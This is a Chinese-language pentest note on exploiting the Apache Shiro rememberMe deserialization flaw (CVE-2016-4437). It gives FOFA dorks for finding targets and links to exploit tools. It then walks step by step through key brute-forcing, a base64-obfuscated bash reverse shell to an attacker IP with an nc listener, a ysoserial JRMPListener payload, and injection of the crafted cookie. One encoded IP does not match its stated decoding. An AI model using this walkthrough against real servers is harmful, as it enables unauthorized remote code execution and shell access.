 # Shiro

## 历史发现

> fofa搜索语法
>
> header="rememberme=deleteMe"
>
> header="shiroCookie"

## Shiro漏洞检测工具

> https://github.com/fupinglee/ShiroScan
> https://github.com/sv3nbeast/ShiroScan
> https://github.com/insightglacier/Shiro_exploit
> https://github.com/Ares-X/shiro-exploit

## Shiro历史漏洞利用

### Shiro反序列化远程代码执行漏洞（CVE-2016-4437）

> 影响版本
>
> Apache Shiro <= 1.2.4

### 利用组件

`org.apache.commons`中的`commons-collections4`(理论上`commons-collections2`也有)

### 漏洞原因

`shiro`默认使用了`CookieRememberMeManager`，其处理`cookie`的流程是：

`得到 rememberMe的cookie值` –> `Base64解码` –> `AES解密` –> `反序列化` 。

### 利用位置

任意http请求中`cookie`处`rememberMe`参数

### Payload构造

`前16字节的密钥`->`后面加入序列化参数`->`AES加密`->`base64编码`->`发送cookie`

## 利用步骤

![image-20221201202305148](C:\Users\86135\AppData\Roaming\Typora\typora-user-images\image-20221201202305148.png)

1. 输入账号密码，点击Remember me，抓包。

   查看返回包中的`Set-Cookie: rememberMe=deleteMe;`字段。确定为shiro组件。

2. 爆破key（文件在`Shiro_exploit-master`文件夹下）

   ```
   python2 shiro_exploit.py -u http://192.168.1.108:8080/doLogin
   ```

   得到key后，在`shiro.py`文件中将密钥改为这个脚本爆破出来的密钥。

3. 选定一个端口进行反弹shell

   ```bash
   nc -lvvp 9999
   ```

   反弹shell

   ```bash
   bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMS4xMDYvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}
   
   YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMS4xMDUvOTk5OSAwPiYx为 bash -i >&/dev/tcp/192.168.1.105/9999 0>&1 加密结果
   ```

4. 使用`ysoserial`反序列化工具监听1099端口

   ```bash
   java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguMS4xMDUvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
   ```

5. 利用`shiro.py`进行生成poc

   ```bash
   python2 shiro.py 101.200.236.51:1099
   
   #IP填yesoerial监听的机器的IP和端口
   ```

6. 把生成的poc放置数据包中的cookie字段中使用；放在rememberMe后面。

7. nc监听端口反弹到shell。
